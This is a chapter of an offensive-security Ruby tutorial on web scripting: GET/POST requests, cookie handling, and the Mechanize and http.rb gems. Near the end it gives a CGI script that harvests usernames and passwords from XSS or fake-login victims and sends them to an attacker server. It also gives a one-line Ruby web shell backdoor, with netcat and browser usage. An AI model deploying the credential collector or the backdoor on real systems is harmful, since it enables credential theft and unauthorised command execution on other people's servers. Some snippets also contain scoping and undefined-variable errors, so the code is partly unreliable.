

Chapter 0x4 | Web Kung Fu
Send Get request
Using Net::HTTP
#!/usr/bin/env ruby
# KING SABRI
# Usage | ruby send_get.rb [HOST] [SESSION_ID]
#
require "net/http"
host = ARGV[0] || "172.16.50.139"
session_id = ARGV[1] || "3c0e9a7edfa6682cb891f1c3df8a33ad"
def send_sqli(query)
uri = URI.parse("https://#{host}/script/path/file.php?")
uri.query = URI.encode_www_form({"var1"=> "val1",
"var2"=> "val2",
"var3"=> "val3"})
http = Net::HTTP.new(uri.host, uri.port)
http.use_ssl = true if uri.scheme == 'https' # Enable HTTPS support if it's HTTPS
request = Net::HTTP::Get.new(uri.request_uri)
request["User-Agent"] = "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:39.0) Gecko/20100101 Firefox/39.0"
request["Connection"] = "keep-alive"
request["Accept-Language"] = "en-US,en;q=0.5"
request["Accept-Encoding"] = "gzip, deflate"
request["Accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
request["PHPSESSID"] = session_id
begin
puts "Sending.. "
response = http.request(request).body
rescue Exception => e
puts "[!] Failed!"
puts e
end
end
Using Open-uri
Here another way to do the same thing
#!/usr/bin/env ruby
require 'open-uri'
require 'openssl'
host = ARGV[0] || "172.16.50.139"
session_id = ARGV[1] || "3c0e9a7edfa6682cb891f1c3df8a33ad"
def send_sqli
uri = URI.parse("https://#{host}/script/path/file.php?var1=val1&var2=val2&var3=val3")
headers =
{
"User-Agent" => "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:39.0) Gecko/20100101 Firefox/39.0",
"Connection" => "keep-alive",
"Accept-Language" => "en-US,en;q=0.5",
"Accept-Encoding" => "gzip, deflate",
"Accept" => "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
"Cookie" => "PHPSESSID=#{session_id}"
}
request = open(uri, :ssl_verify_mode => OpenSSL::SSL::VERIFY_NONE, headers)
puts "Sending.. "
response = request.read
puts response
end
Send HTTP Post request with custom headers
Here the post body from a file
require 'net/http'
uri = URI.parse "http://example.com/Pages/PostPage.aspx"
headers =
{
'Referer' => 'http://example.com/Pages/SomePage.aspx',
'Cookie' => 'TS9e4B=ae79efe; WSS_FullScrende=false; ASP.NET_SessionId=rxuvh3l5dam',
'Connection' => 'keep-alive',
'Content-Type' =>'application/x-www-form-urlencoded'
}
post = File.read post_file # Raw Post Body's Data
http = Net::HTTP.new(uri.host, uri.port)
http.use_ssl = true if uri.scheme == 'https' # Enable HTTPS support if it's HTTPS
request = Net::HTTP::Post.new(uri.path, headers)
request.body = post
response = http.request request
puts response.code
puts response.body
More control on Post variables
Let's to take the following form as a simple post form to mimic in our script
|  |
|---|
| Figure 1. Simple Post form |
Post form code:
<FORM METHOD=POST ACTION="http://wwwx.cs.unc.edu/~jbs/aw-wwwp/docs/resources/perl/perl-cgi/programs/cgi_stdin.cgi">
<P>Name field: <INPUT TYPE="text" Name="name" SIZE=30 VALUE = "You name">
<P>Name field: <TEXTAREA TYPE="textarea" ROWS=5 COLS=30 Name="textarea">Your comment.</TEXTAREA>
<P>Your age: <INPUT TYPE="radio" NAME="radiobutton" VALUE="youngun"> younger than 21,
<INPUT TYPE="radio" NAME="radiobutton" VALUE="middleun" CHECKED> 21 -59,
<INPUT TYPE="radio" NAME="radiobutton" VALUE="oldun"> 60 or older
<P>Things you like:
<INPUT TYPE="checkbox" NAME="checkedbox" VALUE="pizza" CHECKED>pizza,
<INPUT TYPE="checkbox" NAME="checkedbox" VALUE="hamburgers" CHECKED>hamburgers,
<INPUT TYPE="checkbox" NAME="checkedbox" VALUE="spinich">spinich,
<INPUT TYPE="checkbox" NAME="checkedbox" VALUE="mashed potatoes" CHECKED>mashed potatoes
<P>What you like most:
<SELECT NAME="selectitem">
<OPTION>pizza<OPTION>hamburgers<OPTION SELECTED>spinich<OPTION>mashed potatoes<OPTION>other
</SELECT>
<P>Reset: <INPUT TYPE="reset" >
<P>Submit: <INPUT TYPE="submit" NAME="submitbutton" VALUE="Do it!" ACTION="SEND">
</FORM>
We need to send a Post request as the form figure 1 would do with control on each value and variable.
require "net/http"
require "uri"
# Parsing the URL and instantiate http
uri = URI.parse("http://wwwx.cs.unc.edu/~jbs/aw-wwwp/docs/resources/perl/perl-cgi/programs/cgi_stdin.cgi")
http = Net::HTTP.new(uri.host, uri.port)
http.use_ssl = true if uri.scheme == 'https' # Enable HTTPS support if it's HTTPS
# Instantiate HTTP Post request
request = Net::HTTP::Post.new(uri.request_uri)
# Headers
request["Accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
request["User-Agent"] = "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:37.0) Gecko/20100101 Firefox/37.0"
request["Referer"] = "http://www.cs.unc.edu/~jbs/resources/perl/perl-cgi/programs/form1-POST.html"
request["Connection"] = "keep-alive"
request["Accept-Language"] = "en-US,en;q=0.5"
request["Accept-Encoding"] = "gzip, deflate"
request["Content-Type"] = "application/x-www-form-urlencoded"
# Post body
request.set_form_data({
"name" => "My title is here",
"textarea" => "My grate message here.",
"radiobutton" => "middleun",
"checkedbox" => "pizza",
"checkedbox" => "hamburgers",
"checkedbox" => "mashed potatoes",
"selectitem" => "hamburgers",
"submitbutton" => "Do it!"
})
# Receive the response
response = http.request(request)
puts "Status code: " + response.code
puts "Response body: " + response.body
Dealing with Cookies
Some times you need to deal with some actions after authentication. Ideally, it's all about cookies.
Notes:
- To Read cookies you need to get set-cookie from response
- To Set cookies you need to set Cookie to request
puts "[*] Logging-in"
uri1 = URI.parse("http://host/login.aspx")
uri2 = URI.parse("http://host/report.aspx")
Net::HTTP.start(uri1.host, uri1.port) do |http|
http.use_ssl = true if uri1.scheme == 'https' # Enable HTTPS support if it's HTTPS
puts "[*] Logging in"
p_request = Net::HTTP::Post.new(uri1)
p_request.set_form_data({"loginName"=>"admin", "password"=>"P@ssw0rd"})
p_response = http.request(p_request)
cookies = p_response.response['set-cookie'] # Save Cookies
puts "[*] Do Post-authentication actions"
Net::HTTP::Get.new(uri2)
g_request = Net::HTTP::Get.new(uri2)
g_request['Cookie'] = cookies # Restore Saved Cookies
g_response = http.request(g_request)
end
CGI
Get info - from XSS/HTMLi exploitation
When you exploit XSS or HTML injection you may need to receive the grepped data from exploited user to your external server. Here a simple example of CGI script take sent get request from fake login from that asks users to enter log-in with username and password then will store the data to hacked_login.txt text file and fix its permissions to assure that nobody can access that file from public.
Add the following to /etc/apache2/sites-enabled/[SITE] then restart the service
<Directory /var/www/[CGI FOLDER]>
AddHandler cgi-script .rb
Options +ExecCGI
</Directory>
Now, put the script in /var/www/[CGI FOLDER]. You can use it now.
#!/usr/bin/ruby
# CGI script gets user/pass | http://attacker/info.rb?user=USER&pass=PASS
require 'cgi'
require 'uri'
cgi = CGI.new
cgi.header # content type 'text/html'
user = URI.encode cgi['user']
pass = URI.encode cgi['pass']
time = Time.now.strftime("%D %T")
file = 'hacked_login.txt'
File.open(file, "a") do |f|
f.puts time # Time of receiving the get request
f.puts "#{URI.decode user}:#{URI.decode pass}" # The data
f.puts cgi.remote_addr # Remote user IP
f.puts cgi.referer # The vulnerable site URL
f.puts "---------------------------"
end
File.chmod(0200, file) # To prevent public access to the log file
puts ""
Web Shell1 - command execution via GET
if you have a server that supports ruby CGI, you can use the following as backdoor
#!/usr/bin/env ruby
require 'cgi'
cgi = CGI.new
puts cgi.header
system(cgi['cmd'])
Now you can simply use a web browser, Netcat or WebShellConsole1 to execute your commands. ex. Browser
http://host/cgi/shell.rb?cmd=ls -la
Netcat
echo "GET /cgi/shell.rb?cmd=ls%20-la" | nc host 80
WebShellConsole
run wsc
ruby wsc.rb
Add Shell URL
Shell -> set http://host/cgi/shell.rb?cmd=
Now prompt your commands
Shell -> ls -la
Mechanize
Since we're talking about dealing with web in ruby, we can't forget Mechanize gem, the most known library for dealing wit web.
The Official description says, the Mechanize library is used for automating interaction with websites. Mechanize automatically stores and sends cookies, follows redirects, and can follow links and submit forms. Form fields can be populated and submitted. Mechanize also keeps track of the sites that you have visited as a history.
More about Mechanize gem
Since you know the hard way, you'll find Mechanize as simple as mouse clicks! give it a try!
HTTP.rb
HTTP (The Gem! a.k.a. http.rb) is an easy-to-use client library for making requests from Ruby. It uses a simple method chaining system for building requests, similar to Python's Requests.
Under the hood, http.rb uses http_parser.rb, a fast HTTP parsing native extension based on the Node.js parser and a Java port thereof. This library isn't just yet another wrapper around Net::HTTP. It implements the HTTP protocol natively and outsources the parsing to native extensions.
More about http.rb gem
1. WebShellConsole is simple interactive console, interacts with simple web shells using HTTP GET rather than using browser. wsc will work with any shell use GET method. It takes care of all URL encoding too. ↩